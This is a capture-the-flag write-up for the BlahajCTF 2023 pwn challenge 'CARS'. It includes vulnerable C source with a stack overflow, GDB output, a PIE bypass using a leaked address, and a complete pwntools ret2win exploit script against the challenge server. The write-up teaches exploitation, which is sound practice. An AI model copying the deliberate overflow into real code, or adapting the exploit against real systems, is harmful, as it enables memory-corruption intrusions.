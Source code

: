 ```yaml
---
title: CARS
date: 2023-12-05
tags: pwn
categories: BlahajCTF 2023
---
```


solved by {% person fs %}

> **"**I've been playing around with this reporting system for "cyber affairs", generating ticket after ticket in hopes of breaking it. I have a feeling that there's a way to access the admin panel...**"**

## Overview

PIE + NX bypass (ROP) + ret2win

## Exploit review

I had access to the CARS binary. When runing checksec on the binary, I had obtained the following information...

```sh
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Seeing that NX is enabled, I knew that I could not just directly inject shellcode into this program and PIE being enabled suggested that the program's base address is randomised. To bypass these restrictions, the source code had to be looked at.

```c
#include <stdio.h>
#include <stdlib.h>

// Compiled using gcc -o cars -g -fno-stack-protector cars.c

unsigned long report_number = 0;

void setup()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void file_report()
{
    char input[28];
    printf("Please input your student ID: ");
    fgets(input, 28, stdin);
    printf("Please describe the incident: ");
    fgets(input, 256, stdin);
    printf("The matter has been recorded and will be investigated. Thank you.\n");
}

void admin()
{
    // how did you even get here?
    FILE *fptr = fopen("flag", "r");
    if (fptr == NULL)
    {
        printf("Cannot open flag\n");
        exit(0);
    }
    char c;
    while ((c = fgetc(fptr)) != EOF)
    {
        printf("%c", c);
    }
    fclose(fptr);
}

int main()
{
    setup();
    srand(0xb1adee); // this random seed is sooo drain
    report_number = rand();
    printf("Welcome to the Cyber Affairs Reporting System (CARS)\n");
    printf("Report number: #%lu\n", &report_number);
    file_report();
    return 0;
}
```

Paying close attention to the main() function, I had observed that a variable named `report_number` that's being generated from a constant seed `0xb1adee` and it's address (&) being printed out in the long format (%l). Reversing this binary in ghidra gave me the offset of `report number` from the start of the binary file, which is 

```
0x104090 - 0x100000 = 0x4090
```

To calculate program's base address, I had captured the address of `report_number` printed out in the long format, converted it to hex and subtracted 0x4090 from it. I then set the binary ELF's address to this calculated base address. PIE has been bypassed

Looking at the source code, I had noticed that there is a function conveniently planted there named `admin()` that if called, prints out the flag. But this function is not called by any other function in the program. 

Looking at file_report() immediately called after the printf() statements, I saw that 2 fgets() functions are called and the second of which allows the user to write in 256 bytes of data into the `input` variable that can only hold 28 bytes. This buffer overflow can be exploited to overwrite RIP with admin()'s return address.

Firing up GDB, I used the command 

``` sh
pattern create 400
```
and inputted the generated result into the second fgets() function as discussed earlier. This caused a seg fault that I had used to look up registers. One particular register of interest is RBP and in a x64 stack layout, RBP is right next to the return address of the stack frame which is what I had wanted to control. In the GDB result after the seg fault, I had seen that RBP is overwritten with the generated pattern.

``` sh
$rax   : 0x42              
$rbx   : 0x00007fffffffe2f8  →  0x00007fffffffe5bb  →  "/home/xor8ex/blahaj/cars"
$rcx   : 0x00007ffff7ebfb00  →  0x5877fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007fffffffe1d8  →  "faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaala[...]"
$rbp   : 0x6161616161616165 ("eaaaaaaa"?)
$rsi   : 0x00007ffff7f9c803  →  0xf9da30000000000a ("\n"?)
$rdi   : 0x00007ffff7f9da30  →  0x0000000000000000
$rip   : 0x000055555555528d  →  <file_report+113> ret 
$r8    : 0xfe              
$r9    : 0x0               
$r10   : 0x00007ffff7dd10b8  →  0x00100022000048a8
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffe308  →  0x00007fffffffe5d4  →  "XDG_CURRENT_DESKTOP=GNOME"
$r14   : 0x0000555555557dd8  →  0x0000555555555180  →   endbr64 
$r15   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2d0  →  0x0000555555554000  →   j
```

I had then used the simple command 

``` sh
pattern search $rbp
```

to find the offset of RBP. I had then +8 to the offset to find out the offset to the return address since RBP is 8 bytes long. In this case, I had found that the offset to the return address is 40. I then simply constructed a buffer overflow consisting of a payload of 40 bytes + admin()'s func address.

## Exploit

- Capture the address of **report_number** displayed in long format and convert it to hex value
- Subtract 0x4090 from the calculated hex value to obtain program's base address and set it using pwntools 'elf.address=[BASE ADDRESS]'
- Constrcut a payload consisting of 40 bytes + 8 bytes of our desired return address ([BASE ADDRESS] +elf.sym['admin']) | ROP
- Send the payload to the second fgets() in file_report()

## Exploit Code

``` python
import time
from pwn import *

context(os='linux',arch='amd64')
p=remote("139.59.224.179","30002")
#p=process("./cars")
elf=ELF('./cars')

context.log_level='DEBUG'
output=p.recvuntil("Please")
leaked_address=hex(int(output[-21:-7]))

log.info(leaked_address)

base_address=(int(leaked_address,16)-int("0x4090",16))
log.info(hex((base_address)))

elf.address=base_address

payload=b"A"*40+p64(elf.sym['admin']+1) # When setting p to remote, you have to +1 to elf.sym['admin'] due to MOVAPS issue or else the exploit just fails lmao
#payload=b"A"*40+p64(elf.sym['admin'])
p.sendlineafter("ID: ","")
p.sendlineafter("incident: ",payload)
time.sleep(1)
p.interactive()
```

Running this code, I got the flag 

```
blahaj{r0pp1n6_w17h_p13}
```